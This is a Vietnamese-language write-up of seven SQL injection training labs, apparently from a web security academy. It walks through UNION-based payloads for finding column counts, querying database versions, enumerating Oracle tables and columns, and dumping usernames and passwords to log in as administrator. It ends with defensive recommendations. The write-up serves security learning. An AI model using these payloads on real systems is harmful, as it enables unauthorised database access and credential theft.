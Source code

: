 # SQL Injection
>Tên tài liệu: SQL Injection<br>
Thực hiện: Phạm Văn Tam <br>
Cập nhật lần cuối: 10/10/2024
>
# Mục Lục
[1. Lab1: SQL injection attack, querying the database type and version on MySQL and Microsoft ](#p1) <br>
[2. Lab2: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#p2) <br>
[3. Lab3: SQL injection UNION attack, retrieving data from other tables](#p3) <br>
[4. Lab4: SQL injection UNION attack, retrieving data from other tables](#p4) <br>
[5. Lab5: SQL injection UNION attack, retrieving multiple values in a single column](#p5) <br>
[6. Lab6: SQL injection attack, listing the database contents on Oracle](#p6) <br>
[7. Lab7: SQL injection UNION attack, determining the number of columns returned by the query](#p7) <br>
[8. Recommendations](#p8)



# Nội dung
<a id="p1"></a>
## Lab1: SQL injection attack, querying the database type and version on MySQL and Microsoft
Mục tiêu của lab này là hiển thị được Database version
![alt text](./src/image.png)
Phần mô tả của lab nói rằng lab này đang gặp lỗ hổng SQL Injection ở trong product category filter <br>
Test thử với `'` và xem phản hồi của server
![alt text](./src/image-1.png)
Lỗi 500 trả về cho thấy trang web đang có lỗ hổng SQL Injection
Tìm số cột của Database <br>
Payload:

```sql
' order by 3#  
```
![alt text](./src/image-2.png)
=> internal server error => so cot =2 <br>
Tìm cột nào đang chứa contain text
Payload:
```
' UNION SELECT 'a','a'#
```
![alt text](./src/image-3.png)
Và check databse version
Payload:
```
' UNION SELECT @@version, NULL#
```
![alt text](./src/image-4.png)
Tìm được database version là :`8.0.39-0ubuntu0.20.04.1`
<a id="p2"></a>
## Lab2: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Mục tiêu của bài này là thực hiện tấn công SQLi để khiến ứng dụng hiển thị một hoặc nhiều sản phẩm chưa phát hành <br>
Lab này SQLi có thể chèn trong product category filter
![alt text](./src/image-5.png)
Lỗi 500 trả về => Web bị lỗ hổng SQL Injection <br>
Payload : `' OR 1=1 --` <br>
Câu query bây giờ sẽ là <br>
```
SELECT * FROM products WHERE category = 'Gifts'OR 1=1--' AND released = 1
```
- **OR 1=1**: Điều kiện "hoặc" luôn đúng, vì `1=1` luôn luôn đúng. Điều này khiến toàn bộ điều kiện `WHERE` luôn đúng, nghĩa là tất cả các bản ghi trong bảng `products` sẽ được trả về, không chỉ những sản phẩm thuộc danh mục `Gifts` 
- `--' AND released = 1` sẽ trở thành comment <br>
![alt text](./src/image-6.png)
<a id="p3"></a>
## Lab3: SQL injection UNION attack, retrieving data from other tables
Mục tiêu của lab này là lấy usernames  và passwords vào bảng users và đăng nhập với tư cách là administrator.
B1: Tìm số cột
Payload: 

```sql
' ORDER BY 3 --   => internal server error => so cot = 2
' UNION SELECT NULL,NULL -- => response 200 => so cot =2
```
B2: Xác định kiểu dữ liệu các cột

```sql
' UNION SELECT 'a','b' --
```
![alt text](./src/image-7.png)

⇒ Cả 2 cột đều có kiểu dữ liệu là chuỗi

Payload để lấy username và password từ bảng user

```sql
' UNION SELECT username, password FROM users --
```
![alt text](./src/image-8.png)

Tiến hành login với tài khoản `administrator` với password là `j5tzph1b765ac81gqexx`
![alt text](./src/image-9.png)
<a id="p4"></a>
## Lab4: SQL injection attack, querying the database type and version on Oracle
Mục tiêu của bài này là hiển thị được database version

B1: Xác định số cột 

```sql
' ORDER BY 3 --  => Internal Server Error => so cot = 2
```

B2: Xác định kiểu dữ liệu của các cột

```sql
' UNION SELECT 'a','a' --
```

⇒ Báo lỗi server , nhìn mô tả lab thì thấy nó đang thuộc Oracle Database
```sql
' UNION SELECT 'a','a' FROM DUAL --
```
​![alt text](./src/image-10.png)

B3: Output database version
![alt text](./src/image-11.png)
```sql
' UNION SELECT banner,NULL FROM v$version --
```
​![alt text](./src/image-12.png)
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
<a id="p5"></a>
## Lab5: SQL injection UNION attack, retrieving multiple values in a single column
Mục tiêu của bài lab này là truy xuất tất cả `username` và `passwords` và login với tài khoản `administrator` 

B1: Tìm số cột

```sql
' order by 1 -- => not displayed on the page
' order by 2 -- => displayed on the page
' order by 3 -- => internal server error => so cot = 3-1 =2
```

B2: Tìm cột đang chứa contain text

```sql
' UNION SELECT 'a',NULL--  => Internal Server Error
' UNION SELECT NULL,'a' -- => 200 => cot 2 chua contain text
```

B3 : Xuất data từ các bảng

Chúng ta cần xác định được đây là database gì để có thể trích xuất được cả username và password trên một câu truy vấn
![alt text](./src/image-13.png)
Payload xác định
```sql
' UNION SELECT NULL,version() --
```
![alt text](./src/image-14.png)
⇒ PostgreSQL 12.20 (Ubuntu 12.20-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit

Payload trích xuất cả username và password
```sql
' UNION select NULL, username || '*' || password from users --
```
![alt text](./src/image-15.png)
Tiến hành login bằng tài khoản administrator và hoàn thành bài lab
<a id="p6"></a>
## Lab6:SQL injection attack, listing the database contents on Oracle
Mục tiêu của lab này là xác định bảng chứa username và passwords , xác định các cột và xuất nội dung của bảng và login với tài khoản administrator
B1: Xác định số cột
```
' ORDER BY 3 --   => Internal Server Error => so cot =2
```
​
B2: Xác định kiểu dữ liệu các cột
Vì database hiện tại là Oracle 
```
' UNION SELECT 'a','a' FROM DUAL --
```
![alt text](./src/image-16.png)
Cả 2 cột đang là text
B3: Tìm các bảng có trong database
```
' UNION SELECT table_name,NULL FROM all_tables --
```
![alt text](./src/image-18.png)
`USERS_DJYGZI`
B4: Tìm các cột có trong database
```
'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_DJYGZI'--
```
![alt text](./src/image-19.png)
⇒ Có 2 cột : USERNAME_VZOFCI và PASSWORD_ZWFQHZ
B5: List user , password từ 2 cột trên
```
' UNION SELECT USERNAME_VZOFCI,PASSWORD_ZWFQHZ FROM USERS_DJYGZI --
```
![alt text](./src/image-20.png)
Login với usernames administrator và password là rfk6ngsh7f7f2wuk7ls0
<a id="p7"></a>
## Lab7: SQL injection UNION attack, determining the number of columns returned by the query
Mục tiêu của lab này là xác định được số cột được truy vấn trả về bằng cách thực hiện SQLi UNION để trả về một hàng bổ sung chứa giá trị NULL
Ở /filter?category= ta sẽ tiên hành thêm payload sau:
```
' UNION SELECT NULL --
```
Lỗi trả về <br>
![alt text](./src/image-21.png)
Tiếp tục bổ sung các cột cho đến khi hết lỗi
Payload: 
```
' UNION SELECT NULL,NULL,NULL --
' ORDER BY 3 -- (4 lỗi server ⇒ số cột = 4-1 =3)
```
![alt text](./src/image-22.png)
![alt text](./src/image-23.png)

<a id="p8"></a>
***Recommendations***

1. Sử dụng Prepared Statements để ngăn chặn SQL Injection.
2. Implement việc lọc và kiểm tra đầu vào của người dùng.
3. Hạn chế quyền hạn của cơ sở dữ liệu.
4. Triển khai Web Application Firewall (WAF) để phát hiện và chặn các tấn công SQL Injection.
